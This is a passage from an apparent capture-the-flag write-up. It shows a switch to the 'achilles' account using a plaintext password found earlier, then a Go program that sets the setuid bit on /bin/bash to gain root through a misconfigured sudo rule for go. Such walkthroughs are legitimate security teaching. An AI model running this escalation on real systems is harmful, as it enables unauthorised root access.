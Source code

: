 Using discovered credentials to switch users:

```bash
su achilles
# Password: h2sBr9gryBunKdF9
```

![User Access](images/Pasted%20image%2020251012005141.png)

**Success**: Gained access as `achilles` user.

## Privilege Escalation

### Sudo Permissions Discovery

![Sudo Permissions](images/Pasted%20image%2020251012005236.png)

**Finding**: `/usr/local/go/bin/go` executable with sudo permissions.

### Go Binary Exploitation

Created malicious Go script `shell.go`:

```go
package main
import (
    "log"
    "os/exec"
)
func main() {
    cmd := exec.Command("chmod","u+s","/bin/bash")
    err := cmd.Run()
    if err!=nil {
        log.Fatal(err)
    }
}
```
